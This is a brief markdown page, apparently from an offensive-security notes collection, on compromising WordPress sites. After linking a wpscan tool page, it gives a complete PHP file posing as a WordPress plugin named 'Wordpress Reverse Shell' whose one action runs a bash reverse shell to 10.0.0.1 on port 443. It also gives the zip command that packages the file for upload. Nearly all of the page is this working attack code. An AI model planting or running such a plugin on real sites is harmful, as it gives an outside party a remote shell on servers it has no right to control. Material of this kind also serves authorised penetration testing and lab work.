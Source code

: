 # Wordpress

## Tools

* [wpscan](../../toolbox/web/wpscan.md)

## Reverse Shell Plugin

```
<?php

/**
 * Plugin Name: Wordpress Reverse Shell
 * Author: Not Me
 */

exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.0.1/443 0>&1'");
?>
```

Then add it in a zip file:

```
zip revshell.zip revshell.php
```

